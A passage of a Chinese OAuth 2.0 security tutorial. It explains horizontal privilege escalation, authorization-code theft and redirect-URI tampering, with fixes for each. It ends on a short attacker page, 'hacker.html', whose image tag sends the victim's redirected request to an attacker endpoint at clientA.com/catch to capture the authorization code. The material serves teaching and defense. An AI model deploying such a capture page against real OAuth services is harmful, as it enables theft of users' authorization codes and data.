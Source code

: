 在开放平台环境下，授权关系的校验是由一般由开放网关这一层来处理，因为受保护资源服务会散落在各个业务支持部门。请求数据通过开放网关之后由访问令牌 access\_token 获取了用户的身份，比如商家 ID，就会透传到受保护资源服务，也就是上游接口提供方的系统。

此时，如果受保护资源服务没有对商家 ID 和订单 ID 做归属判断，就有可能发生商家 A 获取商家 B 订单数据的问题，造成水平越权问题。

![](<https://static001.geekbang.org/resource/image/0e/4f/0eaa1a1c991ee25406a85e9dfa17b64f.png?wh=996*878> "图4 水平越权示例图")

发生水平越权问题的根本原因，还是开发人员的认知与意识不够。如果认知与意识跟得上，那在设计之初增加归属关系判断，比如上面提到的订单 ID 和商家 ID 的归属关系判断，就能在很大程度上避免这个漏洞。

同时，在开放平台环境下，由于开放网关和数据接口提供方来自不同的业务部门，防止水平校验的逻辑处理很容易被遗漏：

- 一方面，开放网关的作用是将用户授权之后的访问令牌 access\_token 信息转换成真实的用户信息，比如上面提到的商家 ID，然后传递到接口提供方，数据归属判断逻辑只能在接口提供方内部处理；
- 另一方面，数据提供方往往会认为开放出的接口是被“跟自己一个公司的系统所调用的”，容易忽略水平校验的逻辑处理。



所以，在开放平台环境下，我们就要更加重视与防范数据的越权问题。

以上，CSRF 攻击、XSS 攻击、水平越权这三种攻击类型，它们都属于 OAuth 2.0 面临的互联网非常常见的通用攻击类型。而对于其他的互联网攻击类型，如果你想深入了解的话，可以看一下这篇[安全案例回顾](<https://wooyun.js.org/drops/OAuth%202.0%E5%AE%89%E5%85%A8%E6%A1%88%E4%BE%8B%E5%9B%9E%E9%A1%BE.html>)的文章。

接下来，我们再看两种 OAuth 2.0 专有的安全攻击，分别是授权码失窃、重定向 URI 被篡改。

## 授权码失窃

我们举个例子，先来学习授权码失窃这个场景。

如果第三方软件 A 有合法的 app\_id 和 app\_secret，那么当它去请求访问令牌的时候，也是合法的。这个时候没有任何问题，让我们继续。

如果有一个用户 G 对第三方软件 B，比如极客时间，进行授权并产生了一个授权码 codeB，但并没有对攻击者软件 A 授权。此时，软件 A 是不能访问用户 G 的所有数据的。但这时，如果软件 A 获取了这个 codeB，是不是就能够在没有获得用户 G 授权的情况下访问用户 G 的数据了？整个过程如下图所示。

![](<https://static001.geekbang.org/resource/image/7d/7b/7d464d5a0c49a77862fef10f77cf057b.png?wh=1690*926> "图5 授权码失窃攻击过程")

**这时问题的根源就在于两点：**

- 授权服务在进行授权码校验的时候，没有校验 app\_id\_B；
- 软件 B（也就是极客时间）使用过一次 codeB 的值之后，授权服务没有删除这个 codeB；



看到这里，通过校验 app\_id\_B，并删除掉使用过一次的授权码及其对应的访问令牌，就可以从根本上来杜绝授权码失窃带来的危害了。

说到这里，你不禁要问了，授权码到底是怎么失窃的呢？接下来，我要介绍的就是授权码失窃的可能的方法之一，这也是 OAuth 2.0 中因重定向 URI 校验方法不当而遭受到的一种危害。这种安全攻击类型，就是重定向 URI 被篡改。

## 重定向URI被篡改

有的时候，授权服务提供方并没有对第三方软件的回调 URI 做完整性要求和完整性校验。比如，第三软件 B 极客时间的详细回调 URI 是`https://time.geekbang.org/callback`，那么在完整性校验缺失的情况下，只要以`https://time.geekbang.org`开始的回调 URI 地址，都会被认为是合法的。

此时，如果黑客在`https://time.geekbang.org/page/`下，创建了一个页面**hacker.html**。这个页面的内容可以很简单，其目的就是让请求能够抵达攻击者的服务。

```
<html>
<img src ="https://clientA.com/catch">
</html>
```
